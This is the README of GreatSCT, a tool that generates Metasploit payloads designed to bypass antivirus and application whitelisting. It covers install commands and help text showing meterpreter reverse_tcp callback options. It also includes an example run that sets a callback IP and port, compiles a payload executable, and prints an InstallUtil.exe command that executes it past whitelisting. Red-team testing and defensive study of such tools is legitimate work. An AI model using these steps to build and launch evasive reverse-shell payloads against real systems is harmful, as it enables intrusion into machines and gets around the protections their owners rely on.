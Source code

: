 # GreatSCT

GreatSCT is a tool designed to generate metasploit payloads that bypass common anti-virus solutions and application whitelisting solutions.

GreatSCT is current under support by @ConsciousHacker

## Software Requirements:

### Linux

1.  Debian or Kali - run the setup script - sudo ./setup.sh -c

## Setup (tl;dr)

> NOTE: Installation must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Run `./setup.sh -c` on Linux.

Install by cloning from git, not via apt!

### Quick Install

```bash
apt-get -y install git
git clone https://github.com/ConsciousHacker/GreatSCT.git
cd GreatSCT/
cd setup
sudo ./setup.sh -c
```

### Regenerating Config

> NOTE: This must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Most of the time the config file at `/etc/greatsct/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch GreatSCT you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

### Example Usage

GreatSCT's Main Menu:

```===============================================================================
                             GreatSCT | [Version]: 1.0
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

Main Menu

	1 tools loaded

Available Commands:

	exit			Exit GreatSCT
	info			Information on a specific tool
	list			List available tools
	update			Update GreatSCT
	use			    Use a specific tool

Main menu choice: 


```

## Help
```# ./GreatSCT.py -h
usage: GreatSCT.py [--update] [--version] [--list-tools] [-t Bypass] [--ip IP]
                   [--port Port] [--list-payloads]
                   [-c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]]
                   [-o OUTPUT NAME] [-p [PAYLOAD]] [--clean]
                   [--msfoptions [OPTION=value [OPTION=value ...]]]
                   [--msfvenom [windows/meterpreter/reverse_tcp]]

GreatSCT is a framework to generate application whitelisting bypasses.

GreatSCT Options:
  --update              Update the GreatSCT framework.
  --version             Displays version and quits.
  --list-tools          List GreatSCT's tools
  -t Bypass, --tool Bypass
                        Specify GreatSCT tool to use (Bypass)

Callback Settings:
  --ip IP, --domain IP  IP Address to connect back to
  --port Port           Port number to connect to.

[*] Payload Settings:
  --list-payloads       Lists all available payloads for that tool

Great Scott Options:
  -c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]
                        Custom payload module options.
  -o OUTPUT NAME        Output file base name for source and compiled
                        binaries.
  -p [PAYLOAD]          Payload to generate. Lists payloads if none specified.
  --clean               Clean out payload folders.
  --msfoptions [OPTION=value [OPTION=value ...]]
                        Options for the specified metasploit payload.
  --msfvenom [windows/meterpreter/reverse_tcp]
                        Metasploit shellcode to generate.
```
## GreatSCT Bypass CLI
```# ./GreatSCT.py --ip 192.168.157.136 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: installutil_powershell
 [*] Payload Module: installutil/powershell/script
 [*] Executable written to: /usr/share/greatsct-output/compiled/payload4.exe
 [*] Source code written to: /usr/share/greatsct-output/source/payload4.cs
 [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload4.exe
#
# file /usr/share/greatsct-output/compiled/payload4.exe
/usr/share/greatsct-output/compiled/payload4.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
#
```

### Credits
https://github.com/veil-Framework/

### Licensing
This project is licensed under the GNU General Public License v3 license.
